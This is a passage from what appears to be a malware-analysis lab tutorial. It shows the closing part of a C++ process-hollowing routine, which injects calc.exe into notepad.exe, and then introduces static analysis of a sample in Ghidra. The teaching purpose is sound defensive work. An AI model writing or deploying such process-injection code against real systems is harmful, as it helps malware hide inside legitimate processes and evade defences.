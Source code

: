 ```c
    ctx.Eax = (DWORD)pi.lpBaseOfImage + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew + ((IMAGE_NT_HEADERS*)(((BYTE*)pi.lpBaseOfImage) + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew))->OptionalHeader.AddressOfEntryPoint;

    if (!SetThreadContext(pi.hThread, &ctx))
    {
        return false;
    }

    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return true;
}

int main()
{
    char* szSourceProcessName = "C:\\\\Windows\\\\System32\\\\calc.exe";
    char* szTargetProcessName = "notepad.exe";

    if (HollowProcess(szSourceProcessName, szTargetProcessName))
    {
        cout << "Process hollowing successful" << endl;
    }
    else
    {
        cout << "Process hollowing failed" << endl;
    }

    return 0;
}
```

Now that we have understood how process hollowing is achieved, it's time to explore the **Ghidra** disassembler and examine the process hollowing sample `benign.exe` in the lab.

## Analyzing Process Hollowing

Now that we understand what process hollowing is and how we can use the **Ghidra** disassembler to analyze the malware to get a better understanding of the ins and outs of it, let’s create a new project and load the Benign.exe sample that is located on the Desktop into **Ghidra**.

An important point to note is that almost all malware comes packed with known or custom packers and also have employed different Anti-debugging / **VM** detection techniques to hinder the analysis. This topic will be covered in the next Article. The sample is not packed in this task, and no Anti-debugging / **VM** detection technique is applied.

Our objective of advanced static analysis would be to:

* Examine the **API** calls to find a pattern or suspicious call.
* Look at the suspicious strings.
* Find interesting or malicious functions.
* Examine the disassembled/decompiled code to find as much information as possible.
